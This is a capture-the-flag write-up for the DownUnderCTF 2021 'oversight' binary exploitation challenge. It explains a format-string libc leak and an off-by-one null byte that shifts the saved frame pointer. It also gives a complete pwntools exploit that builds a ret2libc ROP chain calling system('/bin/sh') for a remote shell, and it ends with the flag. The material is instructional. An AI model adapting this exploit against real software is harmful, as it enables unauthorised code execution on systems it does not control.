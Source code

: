 ```yaml
---
title: "[writeup][DownUnderCTF 2021] pwn oversight"
date: 2021-10-09 13:00:57
tags:
    - writeup
    - ctf
    - ductf
    - pwn
    - ret2libc
categories:
    - CTF
---
```


## Intro

this a typical ret2libc problem using rop chain.

require reveal the base point for libc, find offset and setup ropchain

<!-- more -->

## Mitigations

```
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled
```

## Solution

### vuln 1

in the `sym.wait()`, the prinf in the will give a format of `"%val$llx"`, where val can be input by by users.

Therefore, we got a way to leak address in the stack (see [here](/2021/10/09/ductf2021-pwn-leaking-like-a-sieve/) if your don't why), which could help to find the **libc** base address

```
void wait(void)
{
	// ignored
    printf("Pick a number: ");
    fgets(&var_85h, 5, _stdin);
    uVar1 = strtol(&var_85h, 0, 10);
    snprintf((int64_t)&var_85h + 5, 100, "Your magic number is: %%%d$llx\n", uVar1)
    // ignored
}
```

### vuln 2

in the `sym.echo_inner`, we can write max 256(0x100) byte to a 256 byte long char pointer. 

however, the `fread` will set next byte to zero. 

in this case, since the char pointer is locate at `sym.echo` and the stack for sym.echo is 0x100 long, the next byte will appear in the save rbp

since saved rbp is little, the last byte of saved rbp will set to zero, which means the rbp for `sym.echo` will decrease/move up some position

for example,

if the origin rbp of `sym.echo` is `0x1010` after `fread`, it will become `0x1000`, which decrease by 0x10.

moreover, the stack above origin rbp is the char array that we can control. by using `fread`, we can easily construct a stack that do what ever we want.


```
0x000012a5      488b0dd42d00.  mov rcx, qword [obj.stdin]  ; obj.stdin_GLIBC_2.2.5 ; [0x4080:8]=0 ; FILE *stream
0x000012ac      e88ffdffff     call sym.imp.fread          ; size_t fread(void *ptr, size_t size, size_t nmemb, FILE *stream)
0x000012b1      488d3d5c0d00.  lea rdi, str.You_said:      ; 0x2014 ; "You said:" ; const char *s
0x000012b8      4898           cdqe
0x000012ba      41c6040400     mov byte [r12 + rax], 0
```
### leak libc

check the stack after printf, we can use 5+12 = 17 to leak `stdout` address.

```
0x7ffe89512620 0x0000000000000d68   h....... @ rsp 3432
0x7ffe89512628 0x00000a373183bad1   ...17...
0x7ffe89512630 0x67616d2072756f59   Your mag @ r12 ascii ('Y')
0x7ffe89512638 0x65626d756e206369   ic numbe ascii ('i')
0x7ffe89512640 0x3125203a73692072   r is: %1 ascii ('r')
0x7ffe89512648 0x00000a786c6c2437   7$llx...
0x7ffe89512650 0x000055c13fc96070   p`.?.U.. /home/aynakeya/ctf/ducctf/pwn100-oversight/oversight .bss section..bss,reloc.stdout reloc.__cxa_finalize program R W 0x7fbcb29946a0
0x7ffe89512658 0x00007fbcb29954a0   .T...... /usr/lib/x86_64-linux-gnu/libc-2.31.so library R W 0x0
0x7ffe89512660 ..[ null bytes ]..   00000000
0x7ffe89512668 0x00007fbcb283c013   ........ /usr/lib/x86_64-linux-gnu/libc-2.31.so library R X 'cmp eax, 0xffffffff' 'libc-2.31.so'
0x7ffe89512670 0x0000000000000010   ........ 16
0x7ffe89512678 0x00007fbcb29946a0   .F...... /usr/lib/x86_64-linux-gnu/libc-2.31.so library R W 0xfbad2887
0x7ffe89512680 0x000055c13fc94075   u@.?.U.. /home/aynakeya/ctf/ducctf/pwn100-oversight/oversight .rodata str.Lets_play_a_game program R 0x616c70207374654c Lets play a game
```

### construct stack

last 00 are required for alignment

```
@ rsp
ret;
. (new rbp may land here)
. many ret;
. (or here)
ret;
pop rdi; ret;
pointer of "/bin/sh"
call system
00
@ origin rbp

```

## Exploits

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=pwn-2021.duc.tf' '--port=31909' oversight
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('oversight')
libc = ELF("libc-2.27.so")

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn-2021.duc.tf'
port = int(args.PORT or 31909)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
def get_pointer(address:int):
    return address.to_bytes(0x8,"little")
print(io.recv())
io.send(b"\n")
print(123)
io.sendlineafter(b"Pick a number: ",str(5+12).encode())
io.recvuntil(b"Your magic number is: ")
data = io.recv()
print(data)
libc_stdout_address = int(data.decode().split("\n")[0],16)
print(libc_stdout_address)
libc_base = libc_stdout_address - 0x003ec760
libc_pop_rdi = libc_base + 0x215bf
libc_ret = libc_base + 0x08aa
libc_bin_sh = libc_base + 0x001b3e1a
libc_system = libc_base + 0x4f550
mystack =  get_pointer(libc_pop_rdi) + get_pointer(libc_bin_sh) + get_pointer(libc_system) + get_pointer(0)
payload = get_pointer(libc_ret)*(256 // 8 -len(mystack) // 8)+mystack
print("len of payload %d" % (len(payload) / 8))
io.sendline(b"256")
io.sendline(payload)
io.recv()
print("recved")
io.interactive()

```

## flag

DUCTF{1_sm@LL_0ver5ight=0v3rFLOW}